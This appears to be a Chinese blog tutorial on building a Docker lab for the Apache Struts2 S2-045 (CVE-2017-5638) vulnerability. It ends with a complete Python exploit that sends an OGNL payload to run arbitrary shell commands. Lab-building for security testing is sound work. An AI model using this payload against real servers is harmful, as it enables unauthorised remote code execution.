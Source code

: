 ```yaml
---
layout: post
title: 如何使用Docker构建S2-045漏洞环境
categories: [Configuration]
tags: [Docker,Vulnerability-environment]
description: "S2又出高危了，想搞事又怕被水表怎么办？不如自己构建一个真实的漏洞环境，在本地过过瘾。这篇博客以最新的 S2-045 为例，记录如何使用Docker快速进行漏洞测试环境的构建。"
fullview: false
comments: true
---
```

# 准备工作

## 关于 Docker

首先你需要一个Docker环境，关于Docker感兴趣的同学可以阅读[《Docker—入门到实践》](https://yeasy.gitbooks.io/docker_practice/content/)。

关于如何安装Docker请看[安装 Docker](https://yeasy.gitbooks.io/docker_practice/content/install/)。

## 关于 Dockerfile

>如果我们可以把每一层修改、安装、构建、操作的命令都写入一个脚本，用这个脚本来构建、定制镜像，那么之前提及的无法重复的问题、镜像构建透明性的问题、体积的问题就都会解决。这个脚本就是 Dockerfile。

本次重点内容就是如何创建一个 Dockerfile 并构建一个 Docker 镜像。

关于 Dockerfile 请看[使用 Dockerfile 定制镜像](https://yeasy.gitbooks.io/docker_practice/content/image/build.html)

## 关于S2-045的测试环境

我们需要一个 S2-045 的测试环境，这里可以使用[ mottoin ](http://www.mottoin.com/)提供的[测试环境](https://github.com/mottoin/S2-045)。

也可以下载[ struts2-blank ](https://mvnrepository.com/artifact/org.apache.struts/struts2-blank) 进行测试，但是需要手动修改<code> struts.xml </code>，开启动态方法调用。

    <constant name="struts.enable.DynamicMethodInvocation" value="true"/>

# 创建一个 Dockerfile 文件

首先我们要创建一个文件夹来放测试环境以及 Dockerfile 。

    mkdir S2-045

在文件夹内放入下载好的测试环境，然后创建一个 Dockerfile 。

    cp your-download-path/S2-045.war ./S2-045
    vi ./S2-045/Dockerfile

将下列语句写入 Dockerfile ，保存并退出。

    FROM tomcat:8.0-jre8
    MAINTAINER mengbulang@live.com

    WORKDIR /tmp

    RUN set -ex && rm -rf /usr/local/tomcat/webapps/* \
    && chmod a+x /usr/local/tomcat/bin/*.sh

    COPY S2-045.war /usr/local/tomcat/webapps/ROOT.war
    
    EXPOSE 8080

    CMD ["/usr/local/tomcat/bin/catalina.sh", "run"]

当前的目录结构如下:

    └── S2-045
        ├── Dockerfile
        └── S2-045.war

# 构建 Dockerfile

运行命令:

    docker build -t s2-045 S2-045

docker 就会根据之前的 Dockerfile 进行自动构建。

![build](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-build.png)

查看所有的镜像

    docker images -a

可以看到 s2-045 已经静静的躺在列表里面了。

![images-all](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-images-all.png)

# 运行 s2-045 镜像

运行:

    docker run -d -p 80:8080 s2-045

查看当前运行镜像状态:

    docker stats

![stats](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-stats.png)

访问搭建好的环境:

    http://127.0.0.1/index.action

![index](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-index.png)

测试漏洞的脚本实在msf里面找的，相比其他公布出来的测试脚本更稳定：

    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    import urllib2
    import httplib


    def exploit(url, cmd):
        payload = "%{(#_='multipart/form-data')."
        payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
        payload += "(#_memberAccess?"
        payload += "(#_memberAccess=#dm):"
        payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
        payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
        payload += "(#ognlUtil.getExcludedPackageNames().clear())."
        payload += "(#ognlUtil.getExcludedClasses().clear())."
        payload += "(#context.setMemberAccess(#dm))))."
        payload += "(#cmd='%s')." % cmd
        payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
        payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
        payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
        payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
        payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
        payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
        payload += "(#ros.flush())}"

        try:
            headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
            request = urllib2.Request(url, headers=headers)
            page = urllib2.urlopen(request).read()
        except httplib.IncompleteRead, e:
            page = e.partial

        print(page)
        return page

    if __name__ == '__main__':
        import sys
        if len(sys.argv) != 3:
            print("[*] struts2_S2-045.py <url> <cmd>")
        else:
            print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
            url = sys.argv[1]
            cmd = sys.argv[2]
            print("[*] cmd: %s\n" % cmd)
            exploit(url, cmd)

使用方法如下:

    python poc.py http://127.0.0.1/index.action "cd / && ls -al"

![result](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-result.png)

# 参考

[快速搭建各种漏洞环境](https://github.com/Medicean/VulApps)

[S2-045 原理初步分析](http://paper.seebug.org/241/)
